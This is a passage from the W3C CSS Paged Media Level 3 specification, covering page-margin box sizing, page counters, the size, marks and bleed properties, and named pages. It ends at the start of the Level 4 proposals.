1. The tentative used widths are calculated (without `min-width` and `max-width`) following the rules under [§ 5.3.2.2 Resolving auto widths](#css-page-3:variable-auto-sizing).
2. If the tentative used width of any of the three boxes is greater than `max-width`, the rules above are applied again, but this time using the computed value of `max-width` as the computed value for `width`.
3. If the resulting width of any of the three boxes is smaller than `min-width`, the rules above are applied again, but this time using the value of `min-width` as the computed value for `width`.

###### 5.3.2.4. Positioning {#css-page-3:variable-position}

Once the dimensions of the boxes are determined, they are positioned as follows:

- The left outer edge of A is flush with the left edge of the containing block
- The outer area of B is centered in the containing block.
- The right outer edge of C is flush with the right edge of the containing block.

###### 5.3.2.5. Boxes on other sides {#css-page-3:variable-mapping}

The used values for `@bottom-left`, `@bottom-center` and `@bottom-right` page-margin boxes are established by the same rules as for `@top-left`, `@top-center`, and `@top-right`, respectively.

The used values for `@left-top`, `@left-middle` and `@left-bottom` boxes are established by the same rules, with "width" replaced by "height", "left" by "top", "right" by "bottom" and "center" by "middle".

The used values for `@right-top`, `@right-middle` and `@right-bottom` page-margin boxes are established by the same rules as for `@left-top`, `@left-middle` and `@left-bottom`, respectively.

##### 5.3.3. Page-Margin Box Fixed Dimension Computation Rules {#css-page-3:fixed-sizing}

The rules below are used to calculate the used values of each `@top-left-corner`, `@top-left`, `@top-center`, `@top-right`, and `@top-right-corner` page-margin box’s `height`, `margin-top`, and `margin-bottom` properties:

1. The following constraint must hold among the used values of the margin box’s properties:

   `margin-top` + `border-top-width` + `padding-top` + `height` + `padding-bottom` + `border-bottom-width` + `margin-bottom` = top page margin
2. If `border-top-width` + `padding-top` + `height` (if it is not `auto`) + `padding-bottom` + `border-bottom-width`, plus `margin-top` and/or `margin-bottom` if not `auto`, is larger than the height of the top page margin, then any `auto` values for `margin-top` or `margin-bottom` are, for the following rules, treated as `<safe-printable-inset>`.
3. If at this point all of `height`, `margin-top`, and `margin-bottom` have a computed value other than `auto`, the values are said to be "over-constrained". In this case, the specified value of `margin-top` is treated as `auto`.
4. If there is now exactly one value specified as `auto`, its used value follows from the equality.
5. If `height` is set to `auto`, any `auto` margin values become `<safe-printable-inset>` and `height` follows from the resulting equality.
6. If both `margin-top` and `margin-bottom` are `auto`, their used values become equal. This vertically centers the page-margin box content within the top page margin. If `<safe-printable-inset>` is not `0` here, an additional adjustment step is performed: If the resulting `margin-top` in the previous step became less than `<safe-printable-inset>`, subtract as much as possible of this difference from `margin-bottom` without making it negative. Then add this value to `margin-top`.

The same rules apply to the bottom page-margin boxes (bottom-left-corner, bottom-left, bottom-center, bottom-right, and bottom-right-corner), except that in the overconstrained case, the `margin-bottom` is ignored rather than the `margin-top`.

Analogous rules govern the properties for the left and right page-margin boxes with respect to `width` (top-left-corner, left-top, left-middle, left-bottom, and bottom-left-corner; top-right-corner, right-top, right-middle, right-bottom, bottom-right-corner), with "top" replaced by "left", "bottom" replaced by "right", and "height" replaced by "width". In the overconstrained case for left (right) page-margin boxes, the specified value of `margin-left` (`margin-right`) is ignored.

#### 5.4.  Page-margin box examples {#css-page-3:margin-box-ex}

The following is a collection of examples of page-margin box usage.

> **Example:** Here is an example of a page with only a top-left header:
>
> ```
> @page {
>   @top-left { content: "Header in Left Cell (top-left)" }
> }
> ```
>
> Because there are no contents defined for the top-center or the top-right page-margin boxes, the extent of the top-left page-margin box is allowed to cross the center of the page box.
>
> 

> **Example:** The following is an example of a page with a centered header:
>
> ```
> @page {
>   @top-center { content: "Header in Center Cell (top-center)" }
> }
> ```
>
> 

> **Example:** The following is an example of a page with a single header in the top-right page-margin box:
>
> ```
> @page {
>   @top-right { content: "Header in Right Cell (top-right)" }
> }
> ```
>
> Because the content of the center cell is empty, the extent of the top-right page-margin box is allowed to cross the center of the page box.
>
> 

> **Example:** The following is an example of a page with a top-center and a top-left header:
>
> ```
> @page {
>   @top-left { content: "Left Cell (top-left)" }
>   @top-center { content: "Header in Center Cell (top-center)" }
> }
> ```
>
> 

> **Example:** The following is an example of a page with a top-center and a top-right header:
>
> ```
> @page {
>   @top-center { content: "Header in Center Cell (top-center)" }
>   @top-right { content: "Right Cell (top-right)" }
> }
> ```
>
> margin: 10%;
>
> 

> **Example:** The following is an example of a page with top-left and top-right headers:
>
> ```
> @page {
>   @top-left { content: "Header in top-left with approx. twice as many words as right cell." }
>   @top-right { content: "Right cell (top-right)" }
> }
> ```
>
> Because there are no center cell contents, the extent of the top-left is allowed to cross the center of the page box.
>
> 

### 6.  Page Properties {#css-page-3:page-properties}

[Appendix A](#css-page-3:properties-list) defines the normative list of CSS 2.1 [CSS2] [properties that apply to page boxes](#css-page-3:page-property-list). If a conforming user agent supports any of these properties on block boxes, then it must also support that property in the page context. This specification additionally defines the `size` property that only applies in the page context.

Properties that apply to the page-margin boxes can also be set within the page context: if inheritable or explicitly inherited (with the `inherit` keyword in the margin context), they will inherit to the page-margin boxes.

The same appendix defines the normative list of CSS 2.1 [CSS2] [properties that apply to page-margin boxes](#css-page-3:page-property-list). If a conforming user agent supports any of these properties on block boxes, then it must also support that property in the margin context.

Other properties defined by [CSS2] do not apply in these contexts. Behavior for properties not included in CSS 2.1 is undefined.

> **Note:** The intent of leaving other properties undefined is to allow the gradual addition of appropriate CSS3 properties as they emerge, without having to update this specification with each addition.

[As with elements in the document](#css2:value-stages), both the page context and the margin context have a computed value for every property, even if that property does not apply to the page or page-margin box.

The normal rules for CSS properties apply with the following exceptions:

- page-margin boxes inherit from the page context. The page context inherits from the root element. However, since the previous revision of CSS Paged Media Level 3 did not specify this point, an implementation that sets inherited properties in the page context to their initial values (as for the root element) is also conformant to CSS Paged Media Level 3. Note that this exception will be removed in Level 4.
- Values in units of `em` and `ex` are interpreted relative to the font associated with their context. When used on the `font-size` property in the margin context, they are relative to the font of the page context. When used on the `font-size` property in the page context, they are relative to the `font-size` of the root element. However, since a previous revision of CSS Paged Media Level 3 was ambiguous on this point, an implementation that treats `em` and `ex` on `font-size` as relative to the initial value is also conformant to CSS Paged Media Level 3. Note that this exception will be removed in Level 4.
- Percentage values on the margin and padding properties are relative to the dimensions of the containing block. For right and left values, percentages are relative to the width of the containing block; for top and bottom values, percentages are relative to the height of the containing block.
- The used values of `width` and `height` have special computation rules for page boxes and page-margin boxes; see [Page Size](#css-page-3:page-size) and [Computing Page-Margin Box Dimensions](#css-page-3:margin-dimension).
- The page background is positioned and painted [as described above](#css-page-3:painting).
- The rules for counter scoping are modified [as described below](#css-page-3:page-based-counters).
- As on the '::before' and '::after' pseudo-elements, the `normal` value of the `content` property computes to `none` on page-margin boxes.
- On page-margin boxes, the `vertical-align` property behaves [as specified for table cells](#css2:height-layout). It *always* performs alignment in the vertical dimension, regardless of writing mode.

User agents should establish a default page margin via the user agent stylesheet that includes any non-printable area. Authors should assume that the default page area will not include unprintable regions.

#### 6.1.  Page-based counters {#css-page-3:page-based-counters}

Counters can be defined and controlled within an `@page` rule, and used as content in page-margin boxes. This is useful for maintaining a page count.

A `counter-increment` within either a page or margin context causes the counter to increment with the generation of each page box.

If a counter is reset or incremented within the page context, it is in scope for all page-margin boxes and obscures all counters of the same name within the document.

If a counter is reset or incremented within a margin context, it is in scope for that page-margin box and obscures any counters of the same name in both the page context and the document.

If a counter that has not been reset or incremented within the margin context or the page context is used by counter() or counters() in the margin context, then the resultant value is exactly as if the page-margin box were an element within the document at the start of the page, inside the deepest element in the normal flow that spans the page break. Use of the counter in this way does not affect the calculation of the counter’s value.

A counter named `page` is automatically created and incremented by 1 on every page of the document, unless the `counter-increment` property in the page context explicitly specifies a different increment for the `page` counter. The implied `page` counter is a real counter, and can be directly affected using the `counter-increment` and `counter-reset` properties when named explicitly in those properties. It can also be used in the 'counter()' and 'counters()' function forms.

> **Example:** The following rules result in the placement of the current page number in the middle of the outside margin of each page.
>
> ```
> @page {
>   margin: 10%;
>
>   @top-center {
>     font-family: sans-serif;
>     font-weight: bold;
>     font-size: 2em;
>     content: counter(page);
>   }
> }
> ```
>
> Adding the following rule will make all pages even-numbered.
>
> ```
> @page {
>   counter-increment: page 2;
> }
> ```

Additionally, a counter named `pages` is automatically created by the UA. Its value is always the total number of pages in the document. (In continuous media this is always 1.) The value of `pages` cannot be manipulated: while `counter-reset` and `counter-increment` statements that set it are valid, they have no effect.

In all other respects, page-associated counters behave as described in [CSS2], [Nested Counters and Scope](#css2:scope) and [Counters](#css2:counter).

#### 6.2.  Page-margin boxes and default values {#css-page-3:margin-text-alignment}

Properties used within page or margin contexts take their initial values from their respective property definitions; however, user agents must behave as though the values in the following table were established by rules in the UA default style sheet.

| Page-margin box | `text-align` | `vertical-align` |
| --- | --- | --- |
| [top-left-corner](#css-page-3:top-left-corner-box-def) | right | middle |
| [top-left](#css-page-3:top-left-box-def) | left | middle |
| [top-center](#css-page-3:top-center-box-def) | center | middle |
| [top-right](#css-page-3:top-right-box-def) | right | middle |
| [top-right-corner](#css-page-3:top-right-corner-box-def) | left | middle |
| [left-top](#css-page-3:left-top-box-def) | center | top |
| [left-middle](#css-page-3:left-middle-box-def) | center | middle |
| [left-bottom](#css-page-3:left-bottom-box-def) | center | bottom |
| [right-top](#css-page-3:right-top-box-def) | center | top |
| [right-middle](#css-page-3:right-middle-box-def) | center | middle |
| [right-bottom](#css-page-3:right-bottom-box-def) | center | bottom |
| [bottom-left-corner](#css-page-3:bottom-left-corner-box-def) | right | middle |
| [bottom-left](#css-page-3:bottom-left-box-def) | left | middle |
| [bottom-center](#css-page-3:bottom-center-box-def) | center | middle |
| [bottom-right](#css-page-3:bottom-right-box-def) | right | middle |
| [bottom-right-corner](#css-page-3:bottom-right-corner-box-def) | left | middle |

> **Example:** This example style sheet could be used to create a centered header with the current chapter name:
>
> ```
> body {counter-reset: chapter;}
> div.chapter {counter-increment: chapter;}
> @page {
>   margin: 10%;
>   @top-center { content: "Chapter" counter(chapter) }
> }
> ```

### 7.  Page Size {#css-page-3:page-size}

People around the world use many different paper sizes. It is a goal of this specification that web content should be adaptable to a range of different sizes without having to write a specific style sheet for each paper size.

However, in some situations it is important that a certain page size achieves a certain style. One way to achieve this goal is to utilize the `size` property, which indicates that the document should preferentially be displayed on a surface of a certain size; another method is to use Media Queries [MEDIAQ] which allow different style sheets to be applied to different page sizes.

#### 7.1.  Page size: the `size` property {#css-page-3:page-size-prop}

| Field | Value |
| --- | --- |
| Name: | **size** |
| For: | `@page` |
| Value: | `<length [0,∞]>`{1,2} \| auto \| [ `<page-size>` \|\| [ portrait \| landscape ] ] |
| Initial: | auto |
| Computed value: | specified value, with `<length>`s made absolute. |

This property specifies the target size and orientation of the page box’s containing block. In the general case, where one page box is rendered onto one page sheet, the `size` property also indicates the size of the destination page sheet.

The size of a page box can either be "absolute" (fixed size) or "scalable" (i.e., fitting available sheet sizes). The first three values in the table below can be used to create scalable page boxes. Other values define a fixed-size page box, and thereby indicate the preferred output media size. When possible, output should be rendered on the media size indicated. If the specified size is not available, the rules for [transposing a page box to a different size](#css-page-3:renderingpages) apply.

If a `size` property declaration is qualified by a `width`, `height`, `device-width`, `device-height`, `aspect-ratio`, `device-aspect-ratio` or `orientation` media query [MEDIAQ] (or other conditional on the size of the paper), then the declaration must be [ignored](#css2:ignore). Media queries do not honor `size`: they assume the paper size that would be chosen if no `@page` rules were specified.

> **Issue:** It would be useful if media queries could respond at least to sizes specified on an unqualified @page.
>
> Another option could be to do like `@viewport` rules [CSS-DEVICE-ADAPT]: First apply `@page` rules (matching which selectors?), using the UA’s default page size for Media Queries and [viewport-percentage lengths](#css-values-4:viewport-relative-lengths) [CSS-VALUES-3]. The resulting page size is the "base page size". The entire set of stylesheets is applied again, this time using the "base page size" for Media Queries and viewport-percentage lengths.

> **Example:** In the following example
>
> ```
> @page {
>   size: 4in 6in;
> }
>
> @media (max-width: 6in) {
>   @page {
>     size: letter;
>   }
> }
> ```
>
> The second `size` declaration is ignored, i.e. the specified value of the `size` property is `4in 6in`.

****auto****

: The page box will be set to a size and orientation chosen by the UA. In the usual case, the page box size and orientation is chosen to match the target media sheet.

****landscape****

: Specifies that the page’s content be printed in landscape orientation. The longer sides of the page box are horizontal. If a `<page-size>` is not specified, the size of the page sheet is chosen by the UA.

****portrait****

: Specifies that the page’s content be printed in portrait orientation. The shorter sides of the page box are horizontal. If a `<page-size>` is not specified, the size of the page sheet is chosen by the UA.

****`<length [0,∞]>`****

: The page box will be set to the given absolute dimension(s). If only one length value is specified, it sets both the width and height of the page box (i.e., the box is a square). If two length values are specified, the first establishes the page box width, and the second the page box height. Values in units of `em` and `ex` refer to the page context’s font. Negative lengths are illegal.

****`<page-size>`****

: A page size can be specified using one of the following media names. This is the equivalent of specifying `size` using length values. The definition of the media names comes from Media Standardized Names [PWGMSN].

  ****A5****

  : Equivalent to the size of ISO A5 media: 148mm wide and 210 mm high.

  ****A4****

  : Equivalent to the size of ISO A4 media: 210 mm wide and 297 mm high.

  ****A3****

  : Equivalent to the size of ISO A3 media: 297mm wide and 420mm high.

  ****B5****

  : Equivalent to the size of ISO B5 media: 176mm wide by 250mm high.

  ****B4****

  : Equivalent to the size of ISO B4 media: 250mm wide by 353mm high.

  ****JIS-B5****

  : Equivalent to the size of JIS B5 media: 182mm wide by 257mm high.

  ****JIS-B4****

  : Equivalent to the size of JIS B4 media: 257mm wide by 364mm high.

  ****letter****

  : Equivalent to the size of North American letter media: 8.5 inches wide and 11 inches high

  ****legal****

  : Equivalent to the size of North American legal: 8.5 inches wide by 14 inches high.

  ****ledger****

  : Equivalent to the size of North American ledger: 11 inches wide by 17 inches high.

The `<page-size>` names can be used in conjunction with `landscape` or `portrait` to indicate both size and orientation.

> **Example:** ```
> @page {
> size: A4 landscape;
> }
> ```
>
> The above example sets the width of the page box to be 297mm and the height to be 210mm. The page box in this example should be rendered on a page sheet size of 210 mm by 297 mm.

> **Example:** In the following example, the outer edges of the page box will align with the page. The percentage value on the `margin` property is relative to the page size so if the page sheet dimensions are 210mm x 297mm (i.e., A4), the margins are 21mm and 29.7mm. Assuming there are no page borders or padding set in the UA default style sheet, the resulting page area is 189mm by 267.3mm (210mm-21mm by 297mm-29.7mm).
>
> ```
> @page {
> size: auto;/* auto is the initial value */
> margin: 10%;
> }
> ```

> **Example:** ```
> @page {
> size: 8.5in 11in;/* width height */
> }
> ```
>
> The above example sets the width of the page box to be 8.5 inches and the height to be 11 inches. This indicates that the page sheet size should be 8.5"x11" and the orientation `portrait`.

##### 7.1.1.  Media Queries {#css-page-3:page-size-media-query}

*This section is informative.*

By using Media Queries [MEDIAQ], one style sheet can express different stylistic preferences for different page sizes. Consider this example:

> **Example:** ```
> /* style sheet for "A4" printing */
> @media print and (width: 21cm) and (height: 29.7cm) {
>   @page {
>      margin: 3cm;
>   }
>  }
>
> /* style sheet for "letter" printing */
> @media print and (width: 8.5in) and (height: 11in) {
>   @page {
>   margin: 1in;
>   }
> }
> ```

In the example above, "A4" sheets are given a "3cm" page margin, and "letter" sheets are given a "1in" page margin.

##### 7.1.2.  Rotating The Printed Page: the `page-orientation` property {#css-page-3:page-orientation-prop}

| Field | Value |
| --- | --- |
| Name: | **page-orientation** |
| For: | `@page` |
| Value: | upright \| rotate-left \| rotate-right |
| Initial: | upright |
| Computed value: | as specified |

High-quality printing implementations can handle pages of varying sizes and orientations, so an author can choose the size of a page according to what’s best for that page’s content. For example, they might use size: letter portrait; for most pages in a document, but switch to size: letter landscape; to lay out a wide information table.

However, handling content flowing across pages of differing widths is a relatively complex task, and is not yet solved in many popular printing implementations (notably, web browsers). The `page-orientation` descriptor is intended to help such implementations, allowing them to lay out pages in a single consistent size, but change the orientation post-layout in the output medium (such as PDF), so that pages which want to be displayed in a different orientation can do so.

Its values are defined as:

****upright****

: No special orientation is applied; the page is laid out and formatted as normal.

****rotate-left****

: After the page has been laid out, if the output medium supports rotation, this value indicates that the page must be displayed rotated a quarter turn to the left (counter-clockwise) of how it was laid out.

****rotate-right****

: Same as `rotate-left`, except the page must be displayed rotated a quarter turn to the right (clockwise) of how it was laid out.

> **Note:** Margin boxes and other positional things have no special interaction with this property; they’ll be laid out as normal in the unrotated page, then rotated along with everything else.

> **Note:** This property is intended as a stop-gap for less-capable implementations, allowing them to still print documents with a mix of portrait and landscape orientations before they have the ability to flow content across differently-size pages. It requires some awkward contortions to use, such as specifying that a wide table containing only English actually has a vertical `writing-mode` so it’ll lay out "sideways", but be rotated back to upright for readability in the printed output.
>
> There should be no need to use this property in high-quality printing implementations; instead, use `size` to control `portrait` vs `landscape` orientation of a page.

#### 7.2.  Crop and Registration Marks: the `marks` property {#css-page-3:marks}

| Field | Value |
| --- | --- |
| Name: | **marks** |
| For: | `@page` |
| Value: | none \| [ crop \|\| cross ] |
| Initial: | none |
| Computed value: | as specified |

This property adds crop and/or registration marks to the document. These are printed outside the page box to facilitate the trimming and alignment of sheets of paper. Values have the following meanings:

****none****

: Specifies that neither crop marks nor registration marks should be printed: the area outside the bleed area will be completely blank.

****crop****

: Specifies that crop marks should be printed. These are typically short lines outside the page box that are effectively extensions of the page box’s four edges, thereby indicating the precise location of those edges without placing any ink near or within the page box itself.

****cross****

: Specifies that registration marks should be printed. These are typically cross-shaped marks outside each edge of the page box used to align sheets of paper during the printing process.

Note that crop marks and registration marks are only visible if the page box is smaller than the printable area.

> **Example:** To set crop and cross marks on a document, this code can be used:
>
> ```
> @page { marks: crop cross }
> ```

#### 7.3.  Bleed Area: the `bleed` property {#css-page-3:bleed}

| Field | Value |
| --- | --- |
| Name: | **bleed** |
| For: | `@page` |
| Value: | auto \| `<length>` |
| Initial: | auto |
| Computed value: | as specified |

This property specifies the extent of the **bleed area** outside the page box; in other words the extent beyond the page box at which the page rendering is clipped. Values have the following meanings:

****auto****

: Computes to `6pt` if `marks` has `crop` and to zero otherwise.

****`<length>`****

: Specifies by how far outward, in each direction, the bleed area extends past the page box. Values may be negative, but there may be implementation-specific limits.

#### 7.4.  Rendering page boxes that do not fit a page sheet {#css-page-3:renderingpages}

If a page box does not match the target page sheet dimensions, the user agent should do one of the following (in order of preference):

1. Render the page box at the indicated size on a larger page sheet.
2. Rotate the page box 90° if this will make the page box fit the page sheet.
3. Scale the page box to fit the page sheet. (The aspect ratio of the page box should be preserved.)
4. Graphically "slice" the page box onto multiple page sheets.
5. Clip overflowed content (least preferred).

The user agent may wish to consult the user before performing these operations.

#### 7.5.  Positioning the page box on the sheet {#css-page-3:positioning-page-box}

When the page box is smaller than the page sheet, the user agent should either:

- center the page box on the sheet since this will align double-sided pages and avoid accidental loss of information that is printed near the edge of the sheet; or
- position the page box in the upper left corner of the page sheet (or another corner, based on the `direction` and `writing-mode` properties of the page box) as this may minimize media consumption.

The user agent may wish to consult the user in this regard.

#### 7.6.  Staying within the printable area: the `page-margin-safety` property {#css-page-3:page-margin-safety}

| Field | Value |
| --- | --- |
| Name: | **page-margin-safety** |
| For: | `@page` |
| Value: | none \| clamp \| add |
| Initial: | auto |
| Computed value: | as specified |

> **Issue:** The "For:" field above should also include the at-rules @top-left-corner, @top-left, @top-center, @top-right, @top-right-corner, @right-top, @right-middle, @right-bottom, @bottom-right-corner, @bottom-right, @bottom-center, @bottom-left, @bottom-left-corner, @left-bottom, @left-middle, @left-top.
>
> However, multiple at-rules here are currently not supported by bikeshed.

Most printers have a small region along each edge of the page sheet which is unprintable, typically due to the printer’s paper handling mechanism. This property can be used to help staying within the printable area, by adjusting the page margins and page margin box margins.

Some printers don’t have a uniform unprintable area width along each of the four paper edges, and the printer may rotate the print output at their own discretion. The user agent may therefore not be able to make assumptions about which edge will be fed first into the printer, or what orientation the sheet of paper has. If the user agent cannot make such assumptions, only one will be provided (to be used on all 4 sides): The larger of these four values. Otherwise, if the user agent can trust that the four values are usable individually, and that no rotation is going to take place, and so on, each side of the page may have individual values.

Let this value be **`<safe-printable-inset>`**, which is a `<length>`.

This property only affects margins that are adjacent to one of the edges of a sheet. For all other margins, i.e. those margins facing the page’s page area, its value is 0. In other words, when page-margin-safety is specified in a margin context, it will only have an effect at one or two sides. For instance, @page { @top-right-corner { page-margin-safety: clamp; } } may only clamp top and right margin values, as the bottom and left margins face the document’s contents, not the page’s edges.

****none****

: Margins are not affected by unprintable regions

****clamp****

: The used margin values will be the maximum of the resolved value, and `<safe-printable-inset>` for the given side.

****add****

: The used margin values will be the resolved value, plus `<safe-printable-inset>` for the given side.

### 8.               Page Breaks {#css-page-3:page-breaks}

The CSS Fragmentation Module [CSS-BREAK-3] module defines how and where CSS boxes can be *fragmented*, including across page breaks. It defines a few properties that indicate where the user agent may or must break pages, and on what page (left or right) the subsequent content resumes. Each page break ends layout in the current page box and causes remaining pieces of the document tree to be laid out in a new page box.

#### 8.1.  Using named pages: `page` {#css-page-3:using-named-pages}

| Field | Value |
| --- | --- |
| Name: | **page** |
| [Value:](#css-values-4:value-defs) | auto \| `<custom-ident>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | boxes that create [class A](#css-break-4:btw-blocks) break points |
| [Inherited:](#css-cascade-5:inherited-property) | no (but see prose) |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `page` property is used to specify a particular type of page (called a **named page**) on which an element must be displayed. If necessary, a forced page break is introduced and a new page generated of the specified type.

> **Note:** This page can be styled by using the same type name in a [page selector](#css-page-3:page-selectors).

Page type names are case-sensitive identifiers. However the `auto` value, being a CSS keyword, is [ASCII case-insensitive](#css2:characters).

The `page` property does not inherit. However, if the `page` value on an element is `auto`, then its used value is the value specified on its nearest ancestor with a non-auto value. When specified on the root element, the used value for `auto` is the empty string.

Because a previous version of this specification indicated that the `page` property is inherited, an implementation that inherits the `page` property and treats `auto` as always naming the empty string remains conformant to CSS Paged Media Level 3. Note that this exception will be removed in Level 4. Therefore authors should not explicitly specify the `auto` value on a descendant of an element with a non-`auto` value, as the resulting behavior will be unpredictable.

The `page` property works as follows:

1. First, any `auto` values are resolved against non-`auto` ancestors (as specified above).
2. Next, a **start `page` value** and **end `page` value** is determined for each box as the value (if any) propagated from its first or last child box (respectively), else the used value on the box itself. A child propagates its own start or end page value if and only if the `page` property applies to it.

   > **Note:** A first or last child *box* is not always generated by a first or last child *element*. For example, an element could only have a previous sibling with 'display: none' which does not generate any box.
3. The first printed page’s type is the start page value of the root.
4. If for any two boxes meeting at a [class A](#css-break-4:btw-blocks) break point, the end page value of the box preceding the break and start page value of the box succeeding the break do not match, then a page break is forced between the two boxes, and content after the break resumes on a page box of the named type.

> **Note:** Essentially, the two `page` values compared are those from the deepest boxes meeting at the [class A break point](#css-break-4:btw-blocks), ignoring any subtrees rooted by boxes to which the `page` property does not apply.

See [CSS-BREAK-3] for additional details on page breaks.

> **Example:** In this example, the two tables are rendered on landscape pages (indeed, on the same page, if they fit). The page type "narrow" is used for the <p> after the second table, as the page properties for the table element are no longer in effect:
>
> ```
> @page narrow { size: 9cm 18cm }
> @page rotated { size: landscape }
> div { page: narrow }
> table { page: rotated }
> ```
>
> with this document:
>
> ```
> <div>
> <table>...</table>
> <table>...</table>
> <p>This text is rendered on a 'narrow' page</p>
> </div>
> ```

> **Example:** In Japanese documents, sometimes different parts of a single document will have different *kihon hanmen*. [JLREQ] The `page` property, together with `@page` rules specifying different page widths, can accommodate this type of layout:
>
> ```
> <!DOCTYPE html>
> <html lang="ja">
>   <style>
>     html   {
>       writing-mode: vertical-rl;
>       line-height: 1.6;
>     }
>     .main  {
>       page: main;
>       columns: 2;
>       column-gap: 1rem;
>     }
>     .index {
>       page: index;
>       columns: 3;
>       column-gap: 1rem;
>     }
>     @page {
>       margin: auto;  /* center kihon hanmen on page */
>       width:  40rem; /* 1.6 × 25 lines        */
>     }
>     @page main  { height: 61rem; } /* 2 × 30 chars + 1 × gap */
>     @page index { height: 62rem; } /* 3 × 20 chars + 2 × gap */
>   </style>
>   <section class="main"> ... </section>
>   <section class="index"> ... </section>
> </html>
> ```

### 9.  Image Properties {#css-page-3:image-properties}

> **Note:** This section has been moved to [CSS-IMAGES-3].

### Appendix A: Applicable CSS2.1 Properties {#css-page-3:properties-list}

#### CSS 2.1 Properties that apply within the page context {#css-page-3:page-property-list}

This list defines the **page properties**. They are further described in [§ 6 Page Properties](#css-page-3:page-properties).

| [bidi properties](#css2:direction) | direction |
| --- | --- |
| [background properties](#css2:background-properties) | background-color |
| background-image |  |
| background-repeat |  |
| background-attachment |  |
| background-position |  |
| background |  |
| [border properties](#css2:border-properties) | border-top-width |
| border-right-width |  |
| border-bottom-width |  |
| border-left-width |  |
| border-width |  |
| border-top-color |  |
| border-right-color |  |
| border-bottom-color |  |
| border-left-color |  |
| border-color |  |
| border-top-style |  |
| border-right-style |  |
| border-bottom-style |  |
| border-left-style |  |
| border-style |  |
| border-top |  |
| border-right |  |
| border-bottom |  |
| border-left |  |
| border |  |
| [counter properties](#css2:counters) | counter-reset |
| counter-increment |  |
| [color](#css2:propdef-color) |  |
| [font properties](#css2) | font-family |
| font-size |  |
| font-style |  |
| font-variant |  |
| font-weight |  |
| font |  |
| [height](#css2:the-height-property) [properties](#css2:min-max-heights) | height |
| min-height |  |
| max-height |  |
| [line-height](#css2:line-height) |  |
| [margin properties](#css2:margin-properties) | margin-top |
| margin-right |  |
| margin-bottom |  |
| margin-left |  |
| margin |  |
| [outline properties](#css2:dynamic-outlines) | outline-width |
| outline-style |  |
| outline-color |  |
| outline |  |
| [padding properties](#css2:padding-properties) | padding-top |
| padding-right |  |
| padding-bottom |  |
| padding-left |  |
| padding |  |
| [quotes](#css2:quotes-specify) |  |
| [text properties](#css2) | letter-spacing |
| text-align |  |
| text-decoration |  |
| text-indent |  |
| text-transform |  |
| white-space |  |
| word-spacing |  |
| [visibility](#css2:visibility) |  |
| [width](#css2:the-width-property) [properties](#css2:min-max-widths) | width |
| min-width |  |
| max-width |  |

#### CSS 2.1 properties that apply within the margin contexts {#css-page-3:margin-property-list}

This list defines the **page-margin properties**. They are further described in [§ 6 Page Properties](#css-page-3:page-properties).

| [bidi properties](#css2:direction) | direction |
| --- | --- |
| unicode-bidi |  |
| [background properties](#css2:background-properties) | background-color |
| background-image |  |
| background-repeat |  |
| background-attachment |  |
| background-position |  |
| background |  |
| [border properties](#css2:border-properties) | border-top-width |
| border-right-width |  |
| border-bottom-width |  |
| border-left-width |  |
| border-width |  |
| border-top-color |  |
| border-right-color |  |
| border-bottom-color |  |
| border-left-color |  |
| border-color |  |
| border-top-style |  |
| border-right-style |  |
| border-bottom-style |  |
| border-left-style |  |
| border-style |  |
| border-top |  |
| border-right |  |
| border-bottom |  |
| border-left |  |
| border |  |
| [counter properties](#css2:counters) | counter-reset |
| counter-increment |  |
| content |  |
| [color](#css2:propdef-color) |  |
| [font properties](#css2) | font-family |
| font-size |  |
| font-style |  |
| font-variant |  |
| font-weight |  |
| font |  |
| [height](#css2:the-height-property) [properties](#css2:min-max-heights) | height |
| min-height |  |
| max-height |  |
| [line-height](#css2:line-height) |  |
| [margin properties](#css2:margin-properties) | margin-top |
| margin-right |  |
| margin-bottom |  |
| margin-left |  |
| margin |  |
| [outline properties](#css2:dynamic-outlines) | outline-width |
| outline-style |  |
| outline-color |  |
| outline |  |
| [overflow](#css2:overflow) |  |
| [padding properties](#css2:padding-properties) | padding-top |
| padding-right |  |
| padding-bottom |  |
| padding-left |  |
| padding |  |
| [quotes](#css2:quotes-specify) |  |
| [text properties](#css2) | letter-spacing |
| text-align |  |
| text-decoration |  |
| text-indent |  |
| text-transform |  |
| white-space |  |
| word-spacing |  |
| [vertical-align](#css2:line-height) |  |
| [visibility](#css2:visibility) |  |
| [width](#css2:the-width-property) [properties](#css2:min-max-widths) | width |
| min-width |  |
| max-width |  |
| [z-index](#css2:z-index) |  |

### Appendix B: Transfer Possibilities {#css-page-3:transfer-possibilities}

Often, but not always, the page box has a one-to-one correspondence to the physical surface onto which the document is ultimately rendered. The CSS3 page model specifies formatting within the page box, but it is the user agent’s responsibility to transfer the page box to the sheet. Some user agent transfer possibilities that are not addressed by CSS3 include:

- Transferring one page box to one sheet (e.g. single-sided printing);
- Transferring two page boxes to the front and back surfaces of the same sheet (e.g. double-sided printing);
- Transferring N (small) page boxes to one sheet (called "N-up");
- Transferring one (large) page box to N x M sheets (called "tiling");
- Creating signatures. A **signature** is a group of pages printed on a sheet, which, when folded and trimmed like a book, appear in their proper sequence;
- Printing one document to multiple output trays;
- Generating files containing print instructions.

---

## Proposals for the future of CSS Paged Media {#css-page-4}

- **Shortname:** `css-page-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-page-4/](https://drafts.csswg.org/css-page-4/)
- **W3C Status:** UD (exploring)
- **Last Edited:** 2025-11-30
- **Diff Specification Over:** [CSS Paged Media Module Level 3 (`css-page-3`)](#css-page-3)

### 1. The CSS 3 Page Model {#css-page-4:css-page-model}

This section is informative.

The current Page Model, as described in CSS3 Module: Paged Media [CSS3PAGE], is the following one: the printable area of a page, the **page box**, is made of one page box itself divided in four areas:


The CSS3 Page Model

1. the **page margin**; that area is itself divided into 16 **page-margin boxes** (@top-left-corner, @top-left, @top-center, etc. )

    alt="CSS 3 page-margin boxes">

   The 16 page-margin boxes  (with highlight of 3 of them)
2. the **page border**
3. the **page padding**
4. and finally the **page area** containing the boxes generated by the flow of the main contents of the document.

It’s is possible to flow content, for instance page headers and footers or footnotes, into a page-margin box using features introduced by the CSS Generated Content for Paged Media Module [CSS3GCPM].

It is also possible to define multiple page templates for a single document using the `@page` at-rule that allows to select the first page, left pages, right pages or named pages of a paginated flow.

If this page model allowed the publishing industry to adopt HTML and CSS as pivot formats, it starts showing its limits for the following reasons:

